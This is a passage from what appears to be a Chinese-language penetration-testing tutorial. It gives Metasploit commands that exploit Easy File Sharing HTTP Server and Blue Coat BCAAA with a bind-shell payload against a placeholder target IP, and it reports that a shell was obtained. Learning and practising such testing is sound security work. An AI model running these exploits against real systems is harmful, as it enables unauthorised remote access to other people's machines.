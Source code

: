 ![如何操作...](img/image_04_039.jpg)

1.  我们成功地得到了一个 shell。现在让我们测试 Easy File Sharing HTTP Server。在 Metasploit 终端中输入以下命令：

```
      use exploit/windows/http/easyfilesharing_seh
      set rhost <Target IP address>
      set payload windows/shell_bind_tcp
      exploit

```

输出将如下截屏所示：

![如何操作...](img/image_04_040.jpg)

1.  我们也成功地完成了这个：我们得到了一个 shell。现在，让我们检查最后一个软件，Blue Coat 身份验证和授权代理，看看它是否容易受到利用。在 Metasploit 终端中输入以下命令：

```
      use exploit/windows/misc/bcaaa_bof
      set rhost <Target IP address>
      set payload windows/shell_bind_tcp
      exploit

```
